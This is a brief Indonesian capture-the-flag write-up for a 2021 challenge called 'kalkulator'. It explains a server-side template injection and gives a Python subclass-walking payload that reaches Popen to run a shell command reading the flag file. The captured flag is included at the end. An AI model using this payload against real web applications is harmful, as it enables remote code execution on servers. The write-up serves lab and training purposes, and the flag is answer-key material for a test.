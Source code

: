 ## Judul Soal
kalkulator

## Deskripsi Soal

---
## Proof of Concept
- Server side template injection
- kita bisa menggunakan payload untuk melakukan RCE
- Referensi: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- `''.__class__.__mro__[1].__subclasses__()[414](['cat /flag'], shell=True, stdout=-1).communicate()`
- Untuk array index 414, kita perlu mencari class Popen terlebih dahulu ada di index nomor berapa

## Flag
LKS2021{dikala_kalkulatorku_bertindak_disitulah_servermu_meledak}